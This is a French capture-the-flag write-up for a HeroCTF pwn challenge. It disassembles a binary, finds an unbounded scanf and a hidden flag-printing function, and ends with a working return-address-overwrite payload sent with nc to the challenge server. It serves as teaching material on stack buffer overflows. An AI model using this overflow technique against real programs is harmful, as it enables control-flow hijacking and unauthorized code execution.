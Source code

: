 Pour cet ultime challenge de pwn, on a uniquement accès au binaire, et non plus au code source comme lors du premier challenge.

Commençons par se renseigner sur ce binaire :
```bash
$ file pwn2 
pwn2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2fc8ebe2b5eee35be7e503226787911a6a55a1c0, for GNU/Linux 3.2.0, not stripped
```
Nous avons donc un binaire 64bits pour Intel (x86-64), non strippé.

On ouvre ce binaire dans notre désassembleur favori (Cutter, IDA, Ghidra, Radare2...) et on regarde la fonction main():
```assembly
120: int main (int argc, char **argv);
; var char **var_120h @ rbp-0x120
; var int64_t var_114h @ rbp-0x114
; var char *s @ rbp-0x110
; var size_t var_4h @ rbp-0x4
; arg int argc @ rdi
; arg char **argv @ rsi
0x004011c0      push    rbp
0x004011c1      mov     rbp, rsp
0x004011c4      sub     rsp, 0x120
0x004011cb      mov     dword [var_114h], edi ; argc
0x004011d1      mov     qword [var_120h], rsi ; argv
0x004011d8      lea     rdi, str.Donne_moi_ton_nom_little_hackerz_: ; 0x402030 ; const char *format
0x004011df      mov     eax, 0
0x004011e4      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x004011e9      lea     rax, [s]
0x004011f0      mov     rsi, rax
0x004011f3      lea     rdi, [0x00402054] ; const char *format
0x004011fa      mov     eax, 0
0x004011ff      call    __isoc99_scanf ; sym.imp.__isoc99_scanf ; int scanf(const char *format)
0x00401204      lea     rax, [s]
0x0040120b      mov     rdi, rax   ; const char *s
0x0040120e      call    strlen     ; sym.imp.strlen ; size_t strlen(const char *s)
0x00401213      mov     dword [var_4h], eax
0x00401216      lea     rax, [s]
0x0040121d      mov     rsi, rax
0x00401220      lea     rdi, str.Ca_sera_pas_si_simple_cette_fois_jeune___s ; 0x402058 ; const char *format
0x00401227      mov     eax, 0
0x0040122c      call    printf     ; sym.imp.printf ; int printf(const char *format)
0x00401231      mov     eax, 0
0x00401236      leave
0x00401237      ret
```
On peut utiliser le décompiler si l'assembleur ne nous semble pas clair (pas de honte à cela !) :
```c
undefined8 main(undefined8 argc, char **argv)
{
    char **var_120h;
    int64_t var_114h;
    undefined8 var_4h;
    
    var_114h._0_4_ = (undefined4)argc;
    printf("Donne-moi ton nom little hackerz : ");
    __isoc99_scanf(0x402054, (int64_t)&var_114h + 4);
    strlen((int64_t)&var_114h + 4);
    printf("Ca sera pas si simple cette fois jeune \"%s\"\n", (int64_t)&var_114h + 4);
    return 0;
}
```
On continue de se balader et on remarque une fonction intéressante !
```bash
$ nm pwn2 
0000000000401182 T afficherFlagG4NG
[...]
```
Voyons voir celle-ci de plus près :
```assembly
62: sym.afficherFlagG4NG ();
0x00401182      push    rbp
0x00401183      mov     rbp, rsp
0x00401186      push    rbx
0x00401187      sub     rsp, 8
0x0040118b      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401190      mov     ebx, eax
0x00401192      call    geteuid    ; sym.imp.geteuid ; uid_t geteuid(void)
0x00401197      mov     esi, ebx
0x00401199      mov     edi, eax
0x0040119b      call    setreuid   ; sym.imp.setreuid
0x004011a0      lea     rdi, str.cat_flag.txt ; 0x402008 ; const char *string
0x004011a7      call    system     ; sym.imp.system ; int system(const char *string)
0x004011ac      lea     rdi, str.Point_faible_:_trop_fort. ; 0x402015 ; const char *s
0x004011b3      call    puts       ; sym.imp.puts ; int puts(const char *s)
0x004011b8      nop
0x004011b9      add     rsp, 8
0x004011bd      pop     rbx
0x004011be      pop     rbp
0x004011bf      ret
```
Cette fonction nous donnera le flag sur le serveur !

On constate dans le main que l'on peut écrire sans limite dans le buffer d'input, et on va s'en servir pour overflow le buffer de 256 caractères (0x110 - 0x10 = 0x100 = 256) et réécrire l'adresse de retour : on veut ainsi appeler la fonction `afficherFlagG4NG` qui a pour addresse `0x0000000000401182`.

Dans l'idée on pourrait alors se dire qu'il faut écrire 256 caractères suivis de notre adresse (sans oublier le little endian) et que le tour est joué ! Eh oui... Mais non.

```assembly
120: int main (int argc, char **argv);
; var char **var_120h @ rbp-0x120
; var int64_t var_114h @ rbp-0x114
; var char *s @ rbp-0x110
```
Notre input est stocké dans le buffer identifié comme `char *s` (qui fait donc une taille de 256 octets). L'adresse de retour (un quadword, car on est en x64, soit 8 octets) est pop de la stack via l'instruction `ret` puis mise dans `rip` (instruction pointer) en fin de fonction `main`.
Pour réécrire celle-ci, il nous faudra donc overwrite les int `var_114h` et `var_120h` (8 octets chacun) puis `rbp` (base pointer, qui indique le début de la stack) (8 octets également).

Il nous faudra donc finalement 256+(8\*3) = 280 caractères avant d'avoir la main sur l'adresse de retour.
On peut alors résoudre le challenge grâce à Python (eh oui, encore et toujours)
```bash
$ python -c "print('A')*280+'\x82\x11\x40\x00\x00\x00\x00\x00'" |  nc heroctf.fr 3001
Donne-moi ton nom little hackerz : Ca sera pas si simple cette fois jeune "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
FFlag: HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
Point faible : trop fort.
```
HeroCTF{4_l177l3_h4rd3r_bu7_571ll_345y_0101}
